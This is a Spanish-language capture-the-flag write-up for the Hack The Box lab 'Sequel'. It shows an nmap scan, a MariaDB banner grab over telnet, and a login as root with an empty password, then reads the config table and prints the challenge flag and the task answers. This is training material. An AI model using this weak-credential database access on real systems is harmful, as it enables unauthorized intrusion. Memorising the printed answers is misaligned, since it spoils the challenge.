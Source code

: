 ```yaml
---
title: "Sequel"
date: 2022-05-14T23:01:02-05:00
draft: false

description: "Resolución del reto Sequel de Hack the box"
hideToc: false #(false: se muestra el indice a la derecha ... true no se muestra)
enableToc: true #(Se quita o no la opci贸n de derecha que permite ocultar o no)
enableTocContent: false  #(Indice pero vertical)
author: Brayan Rodriguez #(Autor)
authorEmoji: 👺

#(Etiquetas de referencia al contenido)
tags:
- Weak-password
- Fundamentos

categories:
- Ciberseguridad
- Hack-the-box
image: images/HTB/02_Sequel/Sequel.png
---
```


### TASK 1 What does the acronym SQL stand for?

ANS: structured query language

### TASK 2 During our scan, which port running mysql do we find?

Se realiza una escaneo con nmap y se detecta el puerto 3306 tcp abierto 

{{< highlight Bash >}}

Nmap scan report for 10.129.30.80
Host is up (0.78s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 55.11 seconds

{{< /highlight >}} 	

ANS 3306 

### TASK 3 What community-developed MySQL version is the target running?

Nos conectamos por telnet al host en el puerto 3306. Se fuerza un error y se detecta el uso de la tecnología MariaDB

{{< highlight Bash >}}

└─$ telnet $IP 3306
Trying 10.129.119.102...
Connected to 10.129.119.102.
Escape character is '^]'.
help
ls
who
select * from all;
c
5.5.5-10.3.27-MariaDB-0+deb10u1IqQ}Dz\>`��-��I+;&K*,?8:\>mysql_native_password!#08S01Got packets out of orderConnection closed by foreign host.

{{< /highlight >}} 	

ANS MariaDB

Se realiza una búsqueda en internet de potenciales credenciales débiles y probamos un usuario conocido ***root*** con contraseña ***vacía***

{{< highlight Bash >}}

─$ mysql -u root -p -h $IP        
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 76
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.193 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.195 sec)

MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.192 sec)

MariaDB [htb]> 

{{< /highlight >}} 	

### TASK 4 What switch do we need to use in order to specify a login username for the MySQL service?

ANS: -u

### TASK 5 Which username allows us to log into MariaDB without providing a password?

ANS: root 

### TASK 6 What symbol can we use to specify within the query that we want to display everything inside a table?

ANS:  *

### TASK 7 What symbol do we need to end each query with?

ANS:  ;

### SUBMIT FLAG

Como se observó en la tarea 3, se logró obtener el flag que se encontraba en la tabla ***config***

ANS: 7b4bec00d1a39e3dd4e021ec3d915da8

Notas:

https://www.mysqltutorial.org/mysql-cheat-sheet.aspx